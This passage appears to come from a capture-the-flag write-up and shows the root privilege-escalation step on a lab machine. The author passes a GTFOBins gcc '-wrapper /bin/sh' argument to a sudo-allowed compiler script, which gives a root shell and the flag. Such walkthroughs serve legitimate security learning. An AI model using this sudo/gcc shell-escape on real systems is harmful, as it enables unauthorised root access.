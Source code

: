 ![evidence](./static/13-gcc.png)

And I send the payload found in gtfobins:
```shell
$ loopspell@ck05:~$ sudo /home/loopspell/code_compiler.sh \
> '-wrapper /bin/sh,-s .'
```
Then I can get the `root` shell, and I can get the `root` flag:

![evidence](./static/14-censored-rootflag.png)
